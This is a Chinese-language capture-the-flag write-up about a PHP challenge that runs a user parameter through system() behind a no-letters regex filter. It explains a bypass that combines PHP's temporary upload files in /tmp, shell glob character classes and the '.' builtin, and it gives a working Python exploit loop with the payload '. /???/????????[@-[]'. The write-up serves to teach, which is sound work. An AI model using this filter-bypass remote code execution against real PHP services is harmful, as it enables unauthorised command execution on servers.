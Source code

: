tags:: CTF/RCE, CTF/Shell/WAF绕过

- # WP
  
  题目会执行参数c，但是参数c不能包含任何字母
  
  ```php
  if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
  system($c);
  } 
  ```
  
  注意到PHP的一个特性：上传文件时，PHP会将文件暂存在`/tmp`中，文件名为`php??????`(问号为大小写字母)
  
  *nix shell 可以用[glob](https://man7.org/linux/man-pages/man7/glob.7.html)匹配文件
  
  > 其中可以用`[@-[]`代表大写字母，`[_-{]`代表小写字母(ascii在这个区间的字母)
  
  并且，*nix shell还有一个特性：`.`代表当前shell，也就是说`. ./test.sh`相当于用当前的shell执行`test.sh`
  
  使用这三个特性，我么可以向目标发送并执行恶意文件，实现RCE
  
  ```python
  while True:
    r = requests.post(url, 
        params = {
            "c": ". /???/????????[@-[]"
        },
        files={
            "file":("a.txt", "cat flag.php")
        }
    )
    if r.text:
        break
  
  print(r.text)
  ```
-